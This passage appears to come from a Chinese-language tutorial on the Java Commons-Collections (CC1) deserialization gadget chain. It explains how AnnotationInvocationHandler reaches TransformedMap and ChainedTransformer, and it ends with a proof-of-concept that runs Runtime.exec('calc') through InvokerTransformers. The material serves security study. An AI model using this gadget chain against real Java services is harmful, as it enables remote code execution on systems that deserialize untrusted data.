 ```java
                  value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                        annotationType.members().get(name)));
            }
        }
    }
}
```

`memberValue.setValue`  =》`TransformedMap#checkSetValue` =》 `valueTransformer.transform()`

因此让`memberValue`为上面的evilMap即可。

* PROBLEM THROW：
  需要满足`memberType != null`才能进入`memberValue.setValue`

`Class<?> memberType = memberTypes.get(name);`
memberTypes👇                                                                                                                       name👇
`Map<String, Class<?>> memberTypes = annotationType.memberTypes();`           `String name = memberValue.getKey();`
annotationType👇
`annotationType = AnnotationType.getInstance(type);`

构造函数：

```java
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues)
```

type是构造对象时传进来的`Annotation子类`的`Class`
name是传入Map（memberValues）的每个键名

`memberType.get(name)`要不为空即要求`AnnotationType`要有名为`name`的成员

```java
System.out.println(AnnotationType.getInstance(Target.class).memberTypes());
// {value=class [Ljava.lang.annotation.ElementType;}
System.out.println(AnnotationType.getInstance(Retention.class).memberTypes());
// {value=class java.lang.annotation.RetentionPolicy}
```

@Retention和@Target都有`value`这个成员

另外，`AnnotationInvocationHandler`的构造方法被default修饰，不能直接new，利用反射来实例化该类

# 0x04 Weave POC

```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map<Object, Object> map = new HashedMap();
map.put("value", 123);
Map<Object, Object> evilMap = TransformedMap.decorate(map, null, chainedTransformer);
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
cons.setAccessible(true);
Object aih = cons.newInstance(Target.class, evilMap);

```